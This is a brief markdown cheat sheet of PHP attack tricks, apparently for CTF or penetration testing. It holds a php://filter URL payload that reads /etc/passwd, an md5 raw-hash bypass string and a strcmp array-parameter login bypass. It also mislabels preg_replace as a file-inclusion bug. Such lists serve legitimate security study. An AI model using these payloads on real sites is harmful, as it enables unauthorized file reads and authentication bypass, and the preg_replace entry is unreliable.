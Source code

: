 ## PHP

- `preg_replace`

  - Local File Inclusion bug.
    - [http://php.net/manual/en/function.preg-replace.php](http://php.net/manual/en/function.preg-replace.php)

- `phpdc.phpr`

  - Decompile if used `bcompile`.

- `php://filter`

  ```txt
  http://target.com/index.php?m=php://filter/convert.base64-encode/resource=/etc/passwd
  ```

- `md5('value', true);`

  List of bypass strings

  - `129581926211651571912466741651878684928`

- `strcmp`

  List of bypass strings
  - `?password[]=123`
